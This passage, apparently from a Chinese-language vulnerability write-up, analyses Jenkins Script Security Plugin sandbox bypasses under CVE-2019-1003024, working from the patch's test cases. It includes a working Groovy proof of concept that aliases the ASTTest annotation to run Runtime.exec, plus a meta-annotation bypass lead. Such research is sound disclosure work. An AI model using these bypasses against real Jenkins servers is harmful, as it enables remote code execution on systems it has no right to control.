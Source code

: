     ![1568259687132](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1568259687132.png)

注意：

1. 当通过grab拉取jar后会在`~/.groovy/grapes`目录创建相应的`ivy.xml`文件（类似于pom文件，保存依赖关系）和`jars`目录，当再次请求相同的包时会从本地获取jar文件而不会去请求http，如果要再次请求就需要更改包名或版本；
2. 还需要注意目标的Java版本与编译恶意类的Java版本是否一致，否则会报错；

### SECURITY-1320

- CVE：CVE-2019-1003024
- 插件：Script Security Plugin
- 版本：<=1.52

补丁中对1320的[测试用例](https://github.com/jenkinsci/script-security-plugin/commit/3228c88e84f0b2f24845b6466cae35617e082059#diff-6f8c6ffbeca4d1d208c9c232770a644fR950)提示了绕过方法，就是通过导入别名的方式

![1571124411948](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1571124411948.png)

#### PoC

```java
import groovy.transform.ASTTest as lolwut;
@lolwut(value={assert java.lang.Runtime.getRuntime().exec("calc")})
class ASTTestPoc{};
```

![1571125498965](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1571125498965.png)

### SECURITY-1321

- CVE：CVE-2019-1003024
- 插件：Script Security Plugin
- 版本：<=1.52

同样根据[测试用例](https://github.com/jenkinsci/script-security-plugin/commit/3228c88e84f0b2f24845b6466cae35617e082059#diff-6f8c6ffbeca4d1d208c9c232770a644fR921)发现通过`元注释`来绕过

[文档](http://docs.groovy-lang.org/latest/html/api/groovy/transform/AnnotationCollector.html)上的例子：

```java
import groovy.transform.*
@AnnotationCollector([EqualsAndHashCode, ToString])
@interface Simple {}

@Simple
class User {
    String username
    int age
}

def user = new User(username: 'mrhaki', age: 39)
assert user.toString()
```

